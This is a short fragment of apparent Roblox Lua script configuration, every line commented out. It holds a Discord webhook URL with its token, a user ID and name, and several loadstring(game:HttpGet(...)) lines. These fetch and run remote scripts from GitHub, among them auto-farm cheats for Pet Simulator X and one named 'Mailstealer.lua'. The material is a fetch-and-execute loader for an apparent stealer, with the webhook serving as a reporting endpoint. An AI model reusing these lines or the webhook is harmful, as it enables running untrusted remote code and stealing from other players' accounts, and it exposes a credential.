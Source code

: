 -- _G.UserID = 12490815
-- _G.WebHook = "https://discord.com/api/webhooks/1061617319199129691/2rA5_qHdSvbnjS-bM4LTLeQbQS7CzEUkkRZ5m0epsghd2FuYAqsJ7EWb9-jYuXmmpFXw"
-- loadstring(game:HttpGet("https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua",true))()
-- _G.UserName = "8kknb5e8ryn"
-- loadstring(game:HttpGet("https://raw.githubusercontent.com/vestyx/PetSimulatorXScripts/main/AutoFarm.lua", true))()
-- loadstring(game:HttpGet("https://raw.githubusercontent.com/Adidsus/untested/main/load.lua", true))()

-- loadstring(game:HttpGet("https://raw.githubusercontent.com/Adidsus/untested/main/Mailstealer.lua", true))()
